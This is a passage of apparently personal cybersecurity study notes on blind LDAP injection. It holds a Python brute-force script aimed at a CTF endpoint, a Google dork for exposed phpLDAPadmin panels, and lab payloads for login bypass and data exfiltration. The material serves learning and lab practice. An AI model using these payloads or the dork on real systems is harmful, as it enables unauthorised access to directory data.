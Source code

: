 
### **Special Blind LDAP Injection (without "*")**

Copy

```python

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

## Google Dorks



```
intitle:"phpLDAPadmin" inurl:cmd.php
```

## VIDEO

<iframe width="800" height="545" src="https://www.youtube.com/embed/z1l9BmnrxVE" title="Curso Bug Bounty  |  LDAP Data Exfiltration &amp; Blind Exploitation- Capitulo 4-2" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

### VID LAB

For this vid lab, we follow the same thing as the previous section, if we use the same payload as before, we get:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241011174044.png)

So, seems like the server is vulnerable to BLIND LDAP injection, if we pass in the following payload, we get what we saw in the previous image, let's try to create another payload:

				`username=admin&password=*` -----> Base payload
			`username=admin)(|(description=*&password=invalid) -----> Data 
			exfiltration payload`

If we pass this to our proxy, we get the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241011174442.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241011174518.png)

We can even create our own tools for the enumeration and exploitation of this vulnerability.

